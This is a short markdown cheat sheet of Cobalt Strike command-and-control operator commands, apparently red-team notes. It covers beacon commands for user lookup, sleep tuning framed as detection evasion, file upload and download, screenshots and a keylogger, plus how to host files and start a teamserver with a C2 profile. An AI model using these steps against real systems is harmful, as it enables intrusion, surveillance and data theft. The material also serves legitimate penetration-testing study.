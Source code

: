 #c2
## General
#### Get current user
```
getuid
```

#### Change sleep / Set interactive
- OPSEC Lower sleep = More traffic/Noice = More likely to get caught.
```
sleep <SECONDS>
sleep 0
```

#### Get metadata from beacon
```
checkin
```

#### Kill a beacon
- Right click beacon, then Session --> Exit, then Session --> Eemove

#### Upload and download files
```
upload <FILE>
download <FILE>
```

#### Take screenshots
- View screenshot. Go to View -> Screenshots
```
printscreen               Take a single screenshot via PrintScr method
screenshot                Take a single screenshot
screenwatch               Take periodic screenshots of desktop
```

#### Keylogger
```
keylogger
```

### Webserver
#### Upload file
- Go to Site Management -> Host File and select your document.
- Set the Location URI, Local Host and click Launch.

#### Check web logs
- Go to View -> Web log

### Teamserver
#### Start teamserver
```
cd /opt/cobaltstrike
sudo ./teamserver <IP> <PASSWORD> <C2 PROFILE>

sudo ./teamserver <IP> <PASSWORD> c2-profiles/normal/webbug.profile
```
